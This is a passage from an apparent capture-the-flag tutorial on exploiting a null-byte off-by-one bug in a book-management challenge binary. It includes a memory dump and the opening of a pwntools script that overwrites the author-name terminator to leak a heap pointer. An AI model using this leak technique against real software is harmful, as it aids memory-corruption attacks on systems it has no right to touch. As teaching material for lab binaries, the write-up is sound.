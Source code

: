 ```
    if ( i == number )

      break;

  }

* buf = 0;
  return 0LL;

}

```



### Use


#### Leak




Because the my_read function in the program has a null byte off-by-one , in fact the terminator &#39;\x00&#39; read by my_read is written to 0x555555756060. This will overwrite the terminator &#39;\x00&#39; when 0x555555756060~0x555555756068 is written to the book pointer, so there is a vulnerability in the address leak. The value of the first item in the pointer array can be obtained by printing the author name.


```

0x555555756040:	0x6161616161616161	0x6161616161616161

0x555555756050:	0x6161616161616161	0x6161616161616161   <== author name

0x555555756060:	0x0000555555757480 <== pointer array	0x0000000000000000

0x555555756070:	0x0000000000000000	0x0000000000000000

0x555555756080:	0x0000000000000000	0x0000000000000000

```



In order to achieve the leak, first enter 32 bytes in the author name to make the terminator overwritten. After that we create book1, the pointer of book1 will overwrite the last NULL byte in author name, so that the pointer is directly connected with author name, so that the output author name can get a heap pointer.


```

io.recvuntil('Enter author name:') # input author name

io.sendline (&#39;a&#39; * 32)

io.recvuntil (&#39;&gt;&#39;) # create book1
io.sendline ( &#39;1&#39;)
io.recvuntil('Enter book name size:')

io.sendline (&#39;32 &#39;)
io.recvuntil('Enter book name (Max 32 chars):')

io.sendline('object1')

io.recvuntil('Enter book description size:')

io.sendline (&#39;32 &#39;)
```